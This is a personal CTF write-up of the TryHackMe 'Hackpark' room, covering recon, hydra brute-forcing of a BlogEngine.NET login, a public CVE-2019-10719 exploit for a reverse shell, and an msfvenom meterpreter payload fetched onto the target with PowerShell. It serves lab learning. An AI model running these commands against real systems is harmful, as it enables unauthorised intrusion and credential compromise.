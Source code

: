 #+TITLE: Back Again: THM Hackpark
#+DATE: <2023-12-14 23:58>
#+DESCRIPTION: 
#+FILETAGS: tryhackme

After taking a short break from CTFs, trying to keep my *tryhackme*
active streak ... active and losing quite a lot of time to finding and
fixing stuff (unfortunately not only in software), it is time for yet
another CTF. If I am not mistaken this is listed as an easy one, so
let's dive right in.

After using the good ol trick of modifying ~/etc/hosts~ and ~.bashrc~ for
easier handling of the remote machine's address:

* Recon

Our initial port scan only shows 2 open ports:
- [ ] 80: a web server
- [ ] 3389: Microsoft SChannel TLS (which the most prominent google
  results suggest may be an RDP entry point)
#+NAME: Initial nmap scan
#+begin_src bash
nmap -sV -sC -oN nmap.initial $IP
#+end_src

After checking on the results that the full nmap scan returned (while
the bruteforce performed ahead was running), another open port was
revealed:
- [ ] 5985: wsman

** Visiting the WebServer
The website is powered by ~BlogEngine~, with numerous exploits readily
available for certain versions of it in exploitdb.

~robots.txt~ has some nice directories:
#+begin_example
User-agent: *
Disallow: /Account/*.*
Disallow: /search
Disallow: /search.aspx
Disallow: /error404.aspx
Disallow: /archive
Disallow: /archive.aspx
#+end_example

We have a contact form, so a XSS vulnerability could (maybe) be used
#+caption: Contact form
[[file:images/Recon/20231215_000936_screenshot.png]]

We also have a log in form:
#+caption: Log in form
[[file:images/Recon/20231215_001129_screenshot.png]]

The room's author (after dealing with the first "flag"), suggests
bruteforcing, so even though it is not my first option, this is what I
am looking at.

* Bruteforcing the website log in
After redirecting my web traffic to burp, so that I can better see how
my post requests are structured, it becomes apparrent that there is a
set of parameters (other than just username and password) I need to
set:

#+begin_example
__VIEWSTATE=UnGFJ1jVBCvPEJB6QrtoKjw76I1fof5nb5%2Fmi95M3Edq9I%2FyqWIy2X2%2FvU7Ag6VZLp%2BYaqmf9yb4caypLwuCdNI3qKUNzyfXiyfNXj5EpuJ0v1Bx%2BnUjl%2FYd9ar9Tb8f3nFwQNVJA6mndKa3dsYvFzu1Bexhhxrqz1chJpeI3L3asy8n&__EVENTVALIDATION=EAe%2B9Chaa4KVFKEQmsprctI7ZIULtNtcD5gfs0zaO0eCbHDdIzjkiO%2BL%2F06nRadcC4cNF5UU3h7kFR%2BmxGwEyb8LufjLU1PJZ9wMrll%2FbVKtVQVrulxrJ3RbExWazKFa8xYTlGU2rrsOcv46foitShidjkUpCxSflIsV3F5p6KrgzjkM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
#+end_example

Adding to these the knowledge that the login post request had this
path ~/Account/login.aspx~ and failed login attempts had ~Login failed~:,
I structured the following hydra command:
 #+NAME: Hydra bruteforce http-post-form
 #+begin_src bash
 hydra -l admin -P /usr/share/wordlists/rockyou.txt hackpark.thm http-post-form "/Account/login.aspx:__VIEWSTATE=UnGFJ1jVBCvPEJB6QrtoKjw76I1fof5nb5%2Fmi95M3Edq9I%2FyqWIy2X2%2FvU7Ag6VZLp%2BYaqmf9yb4caypLwuCdNI3qKUNzyfXiyfNXj5EpuJ0v1Bx%2BnUjl%2FYd9ar9Tb8f3nFwQNVJA6mndKa3dsYvFzu1Bexhhxrqz1chJpeI3L3asy8n&__EVENTVALIDATION=EAe%2B9Chaa4KVFKEQmsprctI7ZIULtNtcD5gfs0zaO0eCbHDdIzjkiO%2BL%2F06nRadcC4cNF5UU3h7kFR%2BmxGwEyb8LufjLU1PJZ9wMrll%2FbVKtVQVrulxrJ3RbExWazKFa8xYTlGU2rrsOcv46foitShidjkUpCxSflIsV3F5p6KrgzjkM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" 
 #+end_src

After waiting for some time, it gave us the password.
#+begin_comment
1qaz2wsx
#+end_comment

* Exploiting BlogEngine
Seeing that BlogEngine had some exploits available, I immediately
searched for the currently running version, (available in the ~about~
pane). 

#+caption: Blog Engine Version
[[file:images/Exploiting_BlogEngine/20231215_003106_screenshot.png]]

Heading back to ~searchsploit~, we see that there are two readily
available python scripts for us to use (much better than the manual
alternative :P ):

#+begin_example
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Direct | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' D | aspx/webapps/47011.py
#+end_example

Now, after checking with (-x), we see that both of them are by the
same author and essentially have a similar behavior. I decided to go
with the first one.

#+begin_example
Exploit for CVE-2019-10719

CVE Identified by: Aaron Bishop
Exploit written by: Aaron Bishop

Upload and trigger a reverse shell

python exploit.py -t 192.168.10.9 -l 192.168.10.10:1337

Open a listener to capture the reverse shell - Metasploit or netcat

nc -nlvp 1337
#+end_example

This, taken from the exploit file (obviously), served as the basis for
the following command
 #+NAME: Exploiting BlogEngine - final part
#+begin_src bash
searchsploit -m 47010 # this might be just the most beautiful option in searchsploit, which I had *totally* missed for quite a long time
python 47010.py -t hackpark.thm -l 10.10.93.209:6969 -u admin -p 1qaz2wsx
#+end_src

This, strangely did not work, so before tinkering around any longer, I
ran the same command with 47011 (which required me to comment out just
one line in the python script as well). At this point, 47011 gave us a
nice reverse shell.


#+caption: Initial Foothold
[[file:images/Exploiting_BlogEngine/20231215_004446_screenshot.png]]

Seeing the privileges granted to our user, even the privilege
escalation path is already known, so after uploading winpeas or
getting a meterpreter shell, there is no need for manual priv esc.

* PrivEsc
This section could be called "getting the flags", because I do not
believe that I would go 

** Meterpreter 
First things first, generating and uploading the payload to the target
host:
#+NAME: Generating the payload and starting the web server
#+begin_example
root@ip-10-10-93-209:~# msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.93.209 LPORT=6970
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
root@ip-10-10-93-209:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
#+end_example

Now, getting the file to the target system was *way* harder than it
needed to be. Initially, I thought that it would be just a bit more
difficult than it is on Linux. No matter what I tried, however, I
could not see that long awaited line in my python server, showing that
the file had been requested...

Sometime, I managed to get it to do the request, but a 'Bad Request
Syntax' prevented me from getting too excited - if you find yourself
in that position make sure that you are smarter than me: pressing
https instead of http by habit.

#+begin_example
powershell -c "Invoke-WebRequest -Uri 'http://10.10.93.209:8000/shell.exe' -OutFile 'c:\Windows\Temp\shell.exe'"
#+end_example

#+caption: Meterpreter
[[file:images/PrivEsc/20231215_012431_screenshot.png]]


(After completing this section I realized I did not include how the
handler was set up, but it is trivial, just ~use~ the
exploit/multi/handle - shown above - and complete the options)

After completing the tedious flags, just a simple ~cat~ gives us the
flag on ~jeff~'s and ~Administrator~'s desktops respectively.

Winpeas is not necessary since we have a full-fledged meterpreter
session. Maybe next time.


* Conclusion
I will focus on getting some more experience with windows, at least on
a theoretical level, and populating my notes better, because I think
it is quite sad to see how much more difficult exploiting windows feels.

